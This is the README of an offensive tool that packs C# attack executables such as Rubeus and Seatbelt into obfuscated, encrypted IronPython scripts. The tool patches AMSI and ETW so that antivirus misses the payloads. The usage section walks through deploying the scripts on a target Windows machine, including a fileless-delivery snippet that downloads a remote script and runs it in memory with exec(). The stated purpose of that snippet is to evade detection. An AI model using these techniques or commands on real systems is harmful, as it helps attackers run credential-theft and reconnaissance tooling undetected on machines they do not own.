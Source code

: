 ### Invoke-Python-SharpPacker.py
--------------------------------------
'Invoke-Python-SharpPacker' allows to pack offensive C# .NET executables to bypass AV solutions such as Windows Defender.  
It generates obfuscated Python scripts, designed to run with IronPython (https://ironpython.net/), embedding a compressed and encrypted version of the offensive C# .NET payloads (exe) for stealthy execution via reflective code loading in-memory.  

<i/>Note: this is an improved version of the cool project 'IronSharpPack'</i>

#### FEATURES
  - Reflective C# assembly loading
  - C# assembly encryption (XOR) and compression (Zlib) 
  - AMSI bypass (patching method / AmsiScanBuffer function)
  - ETW bypass in user-mode (patching method / EtwEventWrite function)
  - Script obfuscation (Function and variable names are randomized + Nested payloads)

#### USAGE
  - STEP 1. Compile and then copy in the same directory all the offensive C# .NET executables that you want to pack (e.g. Rubeus.exe, Certify.exe, Seatbelt.exe) 
    
  - STEP 2. Download the latest version of Python 3 (www.python.org) and use it to generate obfuscated Python scripts that embed an encrypted version of the (C#) .NET executable files.  
```
C:\path-to-Python3\python-3.10.4> python.exe Invoke-Python-SharpPacker.py "C:\path-to-folder-containing-C#-exe-to-pack" 

Note: the packed python scripts will be created in the folder "C:\path-to-Python3\python-3.10.4\"
```
  - STEP 3. Multiple options exist to download & execute the obfuscated Python scripts on a target Windows computer

    - Option A: Download the latest version of IronPython 3 (https://ironpython.net/)  + Fileless delivery of the obfuscated Python scripts 
```
1 - Download the latest version of IronPython 3.4.2 on a target Windows machine.
    Example:
    PS C:\temp> wget -uri https://github.com/IronLanguages/ironpython3/releases/download/v3.4.2/IronPython.3.4.2.zip -OutFile C:\temp\IronPython.3.4.2.zip
    PS C:\temp> tar -xf .\IronPython.3.4.2.zip

2 - Download from a remote web server and execute directly in memory the obfuscated Python scripts (embeding the offensive C# .NET executables) on the target Windows machine using IronPython. 
    This fileless delivery technique enhances stealth and helps evade static antivirus detection. With AMSI and ETW patched, in-memory execution avoids runtime AV detection.
    Example:
    --------
    C:\temp\IronPython.3.4.2\Net462> type .\Python-fileless-delivery.py
    #Python3
    import urllib.request
    request = urllib.request.Request('http://website/Packed-Python-Script-Seatbelt.py')
    result = urllib.request.urlopen(request)
    payload = result.read()
    exec(payload)

    C:\temp\IronPython.3.4.2\Net462> ipy.exe .\Packed-Python-Script-Rubeus.py "logonsession /current /luid"
```
   - Option B: Download the latest version of IronPython 3 (https://ironpython.net/) + Download the obfuscated Python scripts (embeding the offensive C# .NET executables) locally before execution.
```
1 - Download the latest version of IronPython 3.4.2 on a target Windows machine.
    Example:
    PS C:\temp> wget -uri https://github.com/IronLanguages/ironpython3/releases/download/v3.4.2/IronPython.3.4.2.zip -OutFile C:\temp\IronPython.3.4.2.zip
    PS C:\temp> tar -xf .\IronPython.3.4.2.zip

2 - Download and store locally on disk the obfuscated Python scripts prior to execution with IronPython.
    The obfuscation and encryption help evade static analysis by most antivirus solutions, though this method may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\IronPython.3.4.2\Net462> ipy.exe .\Packed-Python-Script-Seatbelt.py  "AMSIProviders"
```
  - Option C: Use IronPython to bundle the obfuscated Python scripts into executables (e.g. script.exe) and then download and execute them on a target Windows computer
    => Not working yet. When using a command like "ipyc.exe /main:Packed-rubeus.py /target:exe /out:Packed-rubeus /standalone", an executable file is generated but it does not work due to issues related to missing import modules.

#### LICENSE
  - GNU General Public License v3.0
